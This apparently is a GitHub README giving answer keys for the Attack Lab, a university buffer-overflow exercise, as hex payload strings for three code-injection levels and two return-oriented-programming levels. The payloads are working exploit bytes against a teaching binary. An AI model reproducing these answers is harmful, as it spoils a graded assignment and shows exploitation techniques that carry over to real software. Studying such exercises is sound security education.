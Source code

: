 # Attacklab-real

Wanna try another attack? Do it by yourself in folder `real_test`!

## Part1：Code Injection Attacks

### level1-answer

```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
84 18 40 00
```

### level2-answer

```c
48 c7 c7 69 f4 da 55 68
b2 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 6d 67 55
```

### level3-answer

```c
48 c7 c7 b8 6d 67 55 68
c9 19 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 6d 67 55 00 00 00 00
35 35 64 61 66 34 36 39
```

## Part2: Return-Oriented Programming

### level4-answer

```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
9b 1a 40 00 00 00 00 00
69 f4 da 55 00 00 00 00
90 1a 40 00 00 00 00 00
b2 18 40 00 00 00 00 00
```

### level5-answer

```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
62 1b 40 00 00 00 00 00
75 1a 40 00 00 00 00 00
9b 1a 40 00 00 00 00 00
48 00 00 00 00 00 00 00
f0 1a 40 00 00 00 00 00
68 1b 40 00 00 00 00 00
7e 1b 40 00 00 00 00 00
a6 1a 40 00 00 00 00 00
75 1a 40 00 00 00 00 00
c9 19 40 00 00 00 00 00
35 35 64 61 66 34 36 39
```
